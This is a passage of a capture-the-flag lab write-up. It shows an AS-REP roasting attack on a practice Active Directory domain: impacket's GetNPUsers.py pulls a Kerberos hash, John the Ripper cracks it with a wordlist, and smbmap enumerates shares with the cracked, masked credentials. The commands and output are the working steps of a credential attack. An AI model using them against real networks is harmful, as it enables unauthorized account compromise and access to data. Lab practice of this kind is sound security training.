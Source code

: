 
# Exploiting Kerberos

For a kerberus Ticket we use the program "GetNPUser.py" script from impacket. This will receive a kerberus hash.
This has can be cracked with the provided Password list from this room and johntheripper.

```sh 
python3 GetNPUsers.py spookysec.local/s******n-no-pass 
Impacket v0.9.22.dev1+20201015.130615.81eec85a - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for s******n
$krb5asrep$23$s******n@SPOOKYSEC.LOCAL:a***********************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************************b
```

Hashcracking with JohnTheRipper:

```sh
┌──(fr3akazo1d💀fr3ak0ut)-[~/Pen-Testing/THM/Boxes/AttacktriveDirectory]
└─$ sudo john kerberushash --wordlist=password.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
m************5   ($krb5asrep$23$s*******n@SPOOKYSEC.LOCAL)
1g 0:00:00:00 DONE (2020-11-03 21:45) 16.66g/s 110933p/s 110933c/s 110933C/s horoscope..amy123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

found a password for the user "s*******n"

# Enumerating the DC pt3

For this step we will have a look at the SMB-Share. We can check if we can download a folder on the Share. 

```sh
┌──(fr3akazo1d💀fr3ak0ut)-[~/Pen-Testing/THM/Boxes/AttacktriveDirectory]
└─$ smbmap -H spookysec.local -d spookysec.local -u s*******n -p m************5                                  1 ⨯
[+] IP: spookysec.local:445	Name: unknown                                           
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	b****p                                            	READ ONLY	
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	SYSVOL                                            	READ ONLY	Logon server share 
```
